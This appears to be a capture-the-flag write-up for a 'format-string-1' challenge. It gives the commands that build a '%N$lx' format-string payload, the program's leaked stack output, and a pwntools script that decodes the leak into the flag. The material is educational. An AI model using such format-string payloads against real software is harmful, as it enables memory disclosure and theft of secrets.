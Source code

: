 Building the payload:

```bash
$ # base = 6 (secret1)
$ # The flag begins at index `base + 8 = 14` and ends up at index `base + 16 = 22` (left out).
$ # Separator: ;
$ python3 -c 'base=6; payload=""; payload+="".join("%{}$lx;".format(i) for i in range(base+8, base+16)); print(payload)'
%14$lx;%15$lx;%16$lx;%17$lx;%18$lx;%19$lx;%20$lx;%21$lx;
```

Below is the code for creating the payload in a prettier form.
```python
base=6
payload=""
for i in range(base+8, base+16):
    payload+="".join("%{}$lx;".format(i))
print(payload)
```

Submit the payload to `format-string-1`.

```bash
$ ./format-string-1 
Give me your order and I'll read it back to you:
%14$lx;%15$lx;%16$lx;%17$lx;%18$lx;%19$lx;%20$lx;%21$lx 
Here's your order: 3168747b67616c66;3370615f73315f73;7f007d317a7a;3055e4;7ffd692ff500;78c01861bf7a;78c0189624d0;7ffd692ff460
Bye!
```

To simplify the decoding of the result, the following script `read_the_flag` was built:

```python
#!/usr/bin/env python3
from pwn import p64
from sys import argv

def swap_decode(raw):
    res = b''
    for r in raw.split(';'):
        res += p64(int(r,16), endianness='little')
    print(res)

if len(argv) > 1:
    swap_decode(argv[1])
```

Usage:

```bash
$ ./read_the_flag '3168747b67616c66;3370615f73315f73;7c007d317a7a;7ffccd952c20;7ffccd952c30;7c896f8fb211;2;7c896f8edb10'
b'flag{th1s_1s_ap3zz1}\x00...'
```

Captured!
